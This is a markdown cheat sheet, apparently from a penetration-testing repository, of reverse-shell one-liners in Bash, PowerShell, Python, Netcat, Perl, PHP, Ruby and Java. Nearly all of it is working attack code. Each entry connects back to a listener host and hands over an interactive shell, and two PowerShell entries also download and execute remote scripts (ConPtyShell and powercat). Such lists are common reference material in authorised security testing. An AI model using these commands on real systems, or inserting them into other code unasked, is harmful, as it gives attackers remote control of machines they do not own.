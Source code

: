 # Reverse Shell one-liners
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### PowerShell
sauce --> [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
### PowerShell 2
```powershell
powershell -c "IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell $IP 3001"
```
### PowerShell 3
```powershell
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" 
```
### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat
With `-e` argument
```nc -e /bin/sh 10.0.0.1 1234```

Without `-e` argument
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

### Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'"); ?>
```

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
p.waitFor()
```
